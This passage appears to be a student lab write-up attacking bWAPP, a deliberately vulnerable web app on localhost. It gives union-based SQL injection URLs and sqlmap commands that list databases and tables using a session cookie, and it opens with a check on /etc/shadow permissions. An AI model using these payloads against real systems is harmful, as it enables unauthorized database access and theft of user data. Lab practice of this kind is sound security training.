 Verify the shell permisison of `/etc/shadow` file once again:

```sh
ls -l /etc | grep shadow$
```

<insert image>

It is now changed to ``.



# Task 2: Attack on the database of bWapp 

## 1. Get all information about all available databases:

We will choose SQL Injection (GET/Select) as our hack.

```sh
http://localhost:8025/sqli_2.php?movie=-3%20order%20by%207--++
```

```sh
http://localhost:8025/sqli_2.php?movie=-3%20union%20select%201,2,3,4,5,6,7--++
```

Update the link as below to get the database name.

```sh
http://localhost:8025/sqli_2.php?movie=-3%20union%20select%201,database(),3,4,5,6,7--++
```

<img width="512" alt="Screenshot 2024-10-23 at 11 39 49" src="https://github.com/user-attachments/assets/e6ac80b6-3e88-4fd0-931b-6efc251b09dd">

Run the following command with `sqlmap` (cookie PHPSESSID is taken from your storage):

```sh
sqlmap -u "localhost:8025/sqli_2.php?movie=4" --dbs --cookie="PHPSESSID=jhkp27damqtdvdevn7ivgm8kq0;security_level=0"
```

All the available databases should show up like below:

<img width="512" alt="Screenshot 2024-10-23 at 11 46 00" src="https://github.com/user-attachments/assets/0b36e7d4-67f1-4d2b-aef3-f3eceda271d3">

## 2. Get tables, users information.

Since we have already known the main database is `bWAPP`, we can retrieve all of the table inside by the following command:

```sh
sqlmap -u "localhost:8025/sqli_2.php?movie=4" -D bWAPP --tables --cookie="PHPSESSID=jhkp27damqtdvdevn7ivgm8kq0;security_level=0"
```

It should look like below, this is where we see it contains `users` table:

<img width="512" alt="Screenshot 2024-10-23 at 11 51 13" src="https://github.com/user-attachments/assets/11b76fd8-148f-48db-9102-3abe7c1d1020">
